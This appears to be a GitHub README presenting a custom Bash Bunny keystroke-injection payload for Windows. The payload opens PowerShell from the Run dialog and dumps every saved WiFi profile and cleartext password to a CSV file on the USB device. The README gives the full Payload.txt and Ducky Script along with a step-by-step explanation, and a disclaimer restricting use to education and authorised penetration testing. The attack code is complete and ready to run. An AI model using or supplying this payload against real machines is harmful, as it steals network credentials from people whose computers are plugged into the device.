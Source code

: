 # Steven's Custom Ducky Script Repository

This repository contains **custom Ducky Scripts** designed for use with **Hak5's Bash Bunny**. These scripts are intended for **educational purposes, ethical hacking, penetration testing, and cybersecurity research**.



## ⚠ Disclaimer

**Legal & Ethical Use Notice**  
These scripts are provided **strictly for educational and research purposes only**. Unauthorized use of these scripts to access systems without permission is **illegal and punishable by law**. By using this repository, you **agree** to only use these scripts in **controlled environments** (e.g., on your own devices or with explicit permission). I, the author, **do not take responsibility** for any misuse of these scripts. Thank you!

## Bash Bunny Network Key Dumper to CSV (Windows) 
**Payload.txt handles overall attack logic, device modes, and script execution.**
```ducky
# set up payload
LED SETUP
GET SWITCH_POSITION
ATTACKMODE HID STORAGE

# run duckyscript file 'ducky-script.txt'
LED STAGE1
QUACK ${SWITCH_POSITION}/ducky-script.txt

# end payload
LED FINISH
```

**Ducky-script.txt contains keystroke injection commands (Ducky Script syntax).**
```ducky
# opens the run dialog and waits 500 milliseconds to ensure the run dialog is open
GUI r
DELAY 500

# launches powershell without loading a user profile and waits 500 milliseconds
STRING powershell -NoProfile 
ENTER
DELAY 500

# navigates to the Bash Bunny's USB storage assuming it's labeled BashBunny
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name
ENTER
DELAY 500

# navigates to the loot directory where extracted data will be stored and waits 500 milliseconds
STRING cd loot
ENTER
DELAY 500

# extract WiFi profiles and passwords and saves to a CSV file in loot
STRING (netsh wlan show profiles) | Select-String ":(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"; exit
ENTER

```
**Explanation of the PowerShell command:**
```
1. `netsh wlan show profiles` – Lists all saved WiFi profiles.
2. `Select-String ":(.+)$"` – Extracts profile names using regex.
3. `netsh wlan show profile name="$name" key=clear` – Retrieves the password for each profile.
4. `Select-String "Key Content\W+\:(.+)$"` – Extracts the WiFi password using regex.
5. `[PSCustomObject]@{ PROFILE_NAME=$name; PASSWORD=$pass }` – Formats the data into objects.
6. `Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"` – Saves the extracted credentials as a CSV file.
7. `exit` – Closes PowerShell.
```



## 🔗 References

- [Hak5 Official Website](https://hak5.org/)
- [Bash Bunny Documentation](https://docs.hak5.org/bash-bunny/)

